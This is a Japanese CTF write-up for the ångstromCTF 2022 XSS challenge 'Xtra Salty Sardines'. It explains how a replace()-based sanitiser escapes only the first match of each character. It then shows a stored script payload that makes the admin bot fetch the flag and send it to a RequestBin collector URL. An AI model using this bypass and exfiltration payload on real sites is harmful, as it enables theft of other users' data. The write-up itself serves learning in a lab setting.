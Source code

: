 # [WEB] Xtra Salty Sardines 70pts
Clam was intensely brainstorming new challenge ideas, when his stomach growled! He opened his favorite tin of salty sardines, took a bite out of them, and then got a revolutionary new challenge idea. What if he wrote [a site with an extremely suggestive acronym](https://xtra-salty-sardines.web.actf.co/)?

[Source](https://files.actf.co/7173d383e018e4398019bc1990706545915b0ab3a36664b103b3454fb11afd64/index.js), [Admin Bot](https://admin-bot.actf.co/xtra-salty-sardines)
# Solution
初見で解けなかった。\
問題文のタイトルからXSSに関連したやつだな〜と推測。与えられたサイトにアクセスすると、script送ってください感すごいフォームが。`<script>alert('hello');</script>` を送信してみる。すると、表示がおかしいことに気づく。
![結果](images/result.png)
POSTした文字列が何かしら変換されているっぽいので、ソースコードを読んでみる。
```javascript
~~~

    const name = req.body.name
        .replace("&", "&amp;")
        .replace('"', "&quot;")
        .replace("'", "&apos;")
        .replace("<", "&lt;")
        .replace(">", "&gt;");

~~~
```
JavaScriptのreplaceは最初に一致した文字列のみを置換する。ということで、`<>'<script>alert('hello');</script>` を送信してみると、alertが表示された。これで何かしらのイベントを発生させることができるようになったが、何をしたらいいのかわからず断念。\
writeupを読む。\
XSSペイロードを投稿し、Admin Bot にGETで取得させればいいらしい。

XSSペイロードが何かよくわからないので、調べる

> ペイロード（payload）は、IT用語ではデータ伝送されるパケットのヘッダー部を除いたデータの本体を指します。

うーんわからない、、、とりあえずXSSを引き起こすようなやつ？

[RequestBin](https://requestbin.com/)というHTTPリクエストを記録するサービスを利用してみる

```
<>'<script>fetch('https://xtra-salty-sardines.web.actf.co/flag').then(res => res.text()).then(text => fetch("https://xxxxxxxxxxxxx.x.pipedream.net?s=" + text));</script>
```

を投稿し、生成されたURL(`https://xtra-salty-sardines.web.actf.co/sardines/xxxxxxxxxx`)をadmin bot に送信。RequestBin でリクエストが返ってきてそれに、正解のフラグが含まれていた。

ctfではadmin bot を使った際のCookieをsecretにする？

admin bot にurlを送ったら、admin bot がそのurlを踏む？その際にCookie付きで送る？admin bot の勉強しないと(^_^;)

# Reference
- https://github.com/satoki/ctf_writeups/tree/master/%C3%A5ngstromCTF_2022/Xtra_Salty_Sardines